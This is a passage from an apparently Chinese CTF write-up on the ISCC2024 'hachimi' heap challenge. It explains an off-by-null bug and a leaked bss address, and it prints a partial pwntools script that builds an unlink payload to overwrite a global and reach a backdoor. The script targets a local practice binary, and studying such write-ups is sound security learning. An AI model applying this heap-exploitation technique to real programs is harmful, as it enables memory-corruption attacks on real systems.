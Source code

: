 ![mygo3](C:\Users\POI\Desktop\周报\周报06\mygo3.png)

本地成功打通.

#### 5:[ISCC2024]hachimi

~~什么二次元烂梗大合集~~

由于这题从本质上来看和上一题没啥区别,所以我们直接来看漏洞代码

![image-20250104161557104](C:\Users\POI\AppData\Roaming\Typora\typora-user-images\image-20250104161557104.png)

可以看到,程序在向当前chunk读入数据后,会将当前chunk数据域的指针加上当前chunk的大小的位置按位与0xFFFFFFFE,也就是将最后一个二进制位置为0.如果我们的chunk的大小是`0x?8`的话,这个位置就是下一个chunk的标志位.

那么接下来我们看main函数

![hachimi1](C:\Users\POI\Desktop\周报\周报06\hachimi1.png)

可以发现我们需要将unk_202048改成一个大于0x505的数,然后程序就会进入后门函数.

虽然题目开了pie,但case5会泄露bss段的地址,所以这题又是公式化unlink.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
r=process("./pwn")
pause()

def new_h(size,content):
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)
    r.recv()
    return

def edit_h(index,content):
    r.sendline(b"3")
    r.sendline(str(index))
    r.send(content)
    r.recv()
    return

def del_h(index):
    r.sendline(b"2")
    r.sendline(str(index))
    return

def get_add():
    r.sendline(b"5")
    r.recvuntil(b"address:0x")
    return int(r.recv(12),16)


unk_add=get_add()+0x8

chunk_add=unk_add-0x8-0x202040+0x202060
print(hex(unk_add))

new_h(0x48,b'a')
new_h(0x80,b'a')
new_h(0x80,b'a')
pay1=p64(0)+p64(0x41)+p64(chunk_add-0x18)+p64(chunk_add-0x10)+b'a'*0x20+p64(0x40)

edit_h(0,pay1)
```